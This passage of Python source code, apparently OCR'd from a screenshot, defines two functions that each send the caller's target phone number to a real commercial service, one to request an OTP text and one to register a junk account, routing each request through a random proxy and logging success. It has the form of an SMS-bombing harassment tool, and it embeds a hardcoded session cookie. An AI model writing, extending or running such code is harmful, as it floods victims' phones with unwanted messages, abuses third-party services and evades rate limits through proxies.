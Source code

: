 
def api11(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://www.mtsblockchain.com/mgb-api/user/register/reqotp",
      json={"mobile": phone},
      headers={
          "Content-Type":
          "application/json",
          "Cookie":
          "_ga=GA1.2.1476569446.1657959172; _gid=GA1.2.587325211.1657959172; _gat_gtag_UA_230676474_1=1; connect.sid=s%3Avu1rVQbmGkMrSzQS7GYQ-y4VHMxHdmH7.zuhlp%2BBtukL2ksityudE9OTqdUH5G3dk3XHm3zNEHIs; cookie_policy_accepted=1",
          "User-Agent":
          "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api12(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",
      json={
          "username": phone,
          "password": "6302814184624az",
          "name": "0903281894",
          "provinceCode": "28",
          "districtCode": "393",
          "subdistrictCode": "3494",
          "zipcode": "40260",
          "siebelCustomerTypeId": "710",
          "acceptTermAndCondition": "true",
          "hasSeenConsent": "false",
          "locale": "th_TH"
      },
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )
